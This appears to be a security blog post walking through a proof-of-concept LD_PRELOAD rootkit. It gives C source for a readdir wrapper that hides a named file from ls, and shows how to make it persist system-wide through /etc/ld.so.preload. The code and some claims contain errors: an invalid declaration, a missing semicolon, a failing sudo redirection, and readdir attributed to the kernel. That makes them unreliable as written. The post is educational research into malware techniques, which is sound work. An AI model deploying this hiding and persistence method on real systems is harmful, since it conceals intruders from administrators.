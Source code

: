 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)"
date: 2022-10-02T21:45:03+03:00
draft: false
---
```


# Overview

Recently I heard about a new malware called [Symbiote](https://blogs.blackberry.com/en/2022/06/symbiote-a-new-nearly-impossible-to-detect-linux-threat), which the researches are calling the "Nearly-Impossible-to-Detect Linux Threat". I was very intrigued by how that malware is being implemented and how it works internally to remain undetected, so naturally I've started to research it. 


I highly advise you to read through these articles first before we begin with the actual post:

 - [Hijack Execution Flow: Dynamic Linker Hijacking](https://attack.mitre.org/techniques/T1574/006/)
 - [What Is the LD_PRELOAD?](https://www.baeldung.com/linux/ld_preload-trick-what-is)
 - [What is a Shared Library?](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)

# Implementation 

I decided to implement a very simple alternative of this malware just as a proof of concept since it was really interesting me. My idea is to create a file that will be hidden in the system.

First, if you already read the articles that I've linked, it is apparent that we have to implement a shared library, that will override some symbols defined in the Linux Kernel.

What do we need first and how to hide a file from lets say a command like `ls`? With a little bit of investigating of how the `ls` works internally through the [source code](https://github.com/coreutils/coreutils/blob/master/src/ls.c) and the [linux manual page](https://man7.org/linux/man-pages/man1/ls.1.html)
We can see that internally we have a function that is called `print_dir`. I've truncated the comments of the original source code.

 ```c
 ...
static void
print_dir (char const *name, char const *realname, bool command_line_arg)
...
 ```


If we continue further down the function we can see the loop that actually iterates over the files

 ```c
...
  while (true)
    {
      errno = 0;
      next = readdir (dirp); // Here we can see that the loop iterates over readdir as long
      // as the pointer that readdir returns isn't null and the errno != 0
      if (next)
        {
          if (! file_ignored (next->d_name)) // we can see here that it the filename is
          // taken from the next variable, lets look through the source code of `readdir`
            {
      ...
```
Let's confirm that by invoking `nm` this will show us the dynamic symbols that are being loaded from shared libs.

```console
$ nm -D /usr/bin/ls | grep "readdir"
                 U readdir@GLIBC_2.2.5
```

Now I concluded that I need to search into the source code of `readdir` which is located [here](https://github.com/torvalds/linux/blob/master/fs/readdir.c) and the [linux manual page](https://man7.org/linux/man-pages/man3/readdir.3.html). The description more or less describes exactly what we concluded from the source code of `ls.c`. Lets see where we set that `d_name` variable.

```c
#include <dirent.h>

struct dirent *readdir(DIR *dirp); // Signature of the dirent
```

```c
struct dirent {
    ino_t          d_ino;       /* Inode number */
    off_t          d_off;       /* Not an offset; see below */
    unsigned short d_reclen;    /* Length of this record */
    unsigned char  d_type;      /* Type of file; not supported
                                    by all filesystem types */
    char           d_name[256]; /* Null-terminated filename */
};
```

> ⚠️ This reverse engineering/looking up the code might be a little bit tricky because of the different implementations of the `dirent` structure, if you look through some other source codes you may look at some slightly different structures. In this case the number of chars in the array is 256 but that might change to some other values. And you can always count that `d_name` will exists since this field must be implemented on all POSIX systems.

Alright, let's start implementing our own function `readdir` that we will wrap the original one with. 

```c
/* libhidemyfile.c */
#define _GNU_SOURCE
#include <dirent.h> // Including the Directory Entry structure
// The dynamic linking header file so we can use the dlsym
// which will give us the address for the readdir symbol
#include <dlfcn.h>
#include <string.h> // So we can use the strstr

struct dirent *readdir(DIR *dirp) {
    struct *(handle)(DIR *);
    // https://man7.org/linux/man-pages/man3/dlsym.3.html
    // Search for RTLD_NEXT, basically it allow us to wrap
    // the original function
    handle = dlsym(RTLD_NEXT, "readdir")
    struct dirent *dp;

    // Iterating over the return values of our original `readdir`
    while((dp = handle(dirp))) {
        // if our `needle`(our file `syl.lys`) is found in the `haystack`(`dp->d_name`)
        // break the loop and go to the next entry, essentially skipping our file.
        if(strstr(dp->d_name, "syl.lys") == 0)
            break;
    }
    return dp;
}
```

This is what our final version of wrapper for `readdir` would look like. Now let's try to compile it.

```console
$ gcc libhidemyfile.c -fPIC -shared -o libhidemyfile.so -ldl
```

Flags: 
- [fPIC](https://stackoverflow.com/questions/5311515/gcc-fpic-option)
- `-shared` creates a shared object
- [-D_GNU_SOURCE flag / _GNU_SOURCE](https://stackoverflow.com/questions/8836707/explanation-of-d-gnu-source-why-to-use-it-and-when) - TLDR: We need it for `RTLD_NEXT`
- [-ldl](https://ubuntuforums.org/archive/index.php/t-1054717.html)


Now that we have shared object (*.so) file lets see how to use it in action.

# How to overwrite the exported symbols? `LD_PRELOAD`

- [What is LD_PRELOAD?](https://man7.org/linux/man-pages/man8/ld.so.8.html)

I advise you to read that first to get a better understanding of how it works.

The next thing that we are going to do is to test our shared library and see if it works. Lets run `ls` with our `libhidemyfile.so` loaded before anything else.

```console
$ ls
libhidemyfile.so  syl.lys
$ LD_PRELOAD=./libhidemyfile.so ls
libhidemyfile.so
```

As you can see we successfully implement a shared library that hides our file from `ls`, and not only that command, every command that uses `readdir` won't be able to list our file as long as we load our shared library. So in that case we must think of a persistent way of how to load it without typing `LD_PRELOAD` in front of every command.

## /etc/ld.so.preload

If you read carefully the man pages for `LD_PRELOAD` you should know that you won't be able to override functions in the standard search directories without properly setting your set-user-ID permissions. 

Instead we are going to use the `/etc/ld.so.preload` which does not suffer from that restrictions. This suffers from requiring root privileges but c'mon.. if you are here you will get those!

We first need to move our shared library file in some root directory, preferably /lib/ since..it is a library.

```console
$ sudo mv ./libhidemyfile.so /lib/libhidemyfile.so
```

Then we just need to place our library dir in `ld.so.preload` file.

```console
$ sudo echo "libhidemyfile.so" > /etc/ld.so.preload
```

And if everything is good, executing `ls` or any of its aliases will hide our file from the output.

# End

If you reached here, thank you so much for the read. In the next part I will try to "completely" hide it from the system because now if we `cat` it despite not "reading" it in the directory would print us the contents of the file, but that will be the subject of the next post.

